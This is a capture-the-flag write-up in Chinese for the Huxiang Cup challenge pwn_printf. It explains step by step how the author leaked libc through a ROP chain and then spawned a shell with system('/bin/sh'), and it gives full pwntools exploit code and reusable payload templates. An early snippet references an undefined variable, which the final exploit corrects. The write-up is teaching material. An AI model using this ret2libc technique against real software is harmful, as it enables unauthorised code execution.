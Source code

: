 ```yaml
---
title: 湖湘杯hxb_Pwn
categories: 
    - 比赛WriteUp
    - 湖湘杯
---
```



# 湖湘杯hxb_pwn
<!--more-->
## pwn_printf
### pwn_libc

ida


![在这里插入图片描述](https://img-blog.csdnimg.cn/20201108200522719.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)


16次循环
下面if判断v12<=0x20
所以写


```python
for i in range(16):
	n.sendline("32")
```

跟进if下面的函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201108200913518.png#pic_center)

这里变量的栈是空栈0h，所以offset只需要64bit程序的8个就行。
再然后a * a1，所以传参需要double 0x20，也就是0x40
`ROPgadget --binary pwn_printf`
找到pop_rdi_ret的地址
复习一下libc64_payload公式


```python
64位payload: payload = "a"*offset + p64(pop_rdi) + p64(got) + p64(plt) + p64(ret_addr/main)
```


写exp：

```python
from pwn import *
sh = process('./pwn_printf')
elf = ELF('./pwn_printf')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401213
for i in range(16):
	n.sendline("32")
payload = 'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi) + p64(0x40) + p64(0x4007C6)
sh.send(payload)
sh.recvuntil('You will find this game very interesting\n')
puts_addr = u64(sh.recvn(6).ljust(8, '\x00'))
print(hex(puts_addr))
```

这就print出来了puts的地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201108201921266.png#pic_center)


到[libc database search](https://libc.blukat.me/)查一下相关libc信息

在套用一下公式

```python
libc_base = puts_addr - 0x080a30    # -libc_Offset的puts

system_addr = libc_base + 0x04f4e0   # +libc_Offset的system

bin_sh_addr = libc_base + 0x1b40fa		# +libc_Offset的bin/sh
```

复习一下libc64_getshell公式

```python
getshell: "a"*offset + p64(ret) + p64(pop_rdi) + p64(str_bin_sh) + p64(system_addr)
```

完整exp：

```python
from pwn import *
sh = process('./pwn_printf')
elf = ELF('./pwn_printf')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x401213
for i in range(16):
	sh.sendline("32")
payload = 'a' * 8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi) + p64(0x40) + p64(0x4007C6)
sh.send(payload)
sh.recvuntil('You will find this game very interesting\n')
puts_addr = u64(sh.recvn(6).ljust(8, '\x00'))
print(hex(puts_addr))
libc_base = puts_addr - 0x080a30 #0x6f6a0
system_addr = libc_base + 0x04f4e0 #0x0453a0
bin_sh_addr = libc_base + 0x1b40fa #0x18ce17 
payload = 'a' * 8 + p64(0x4007C6) + p64(pop_rdi) + p64(bin_sh_addr) + p64(system_addr)

sh.send(payload)

sh.interactive()
```
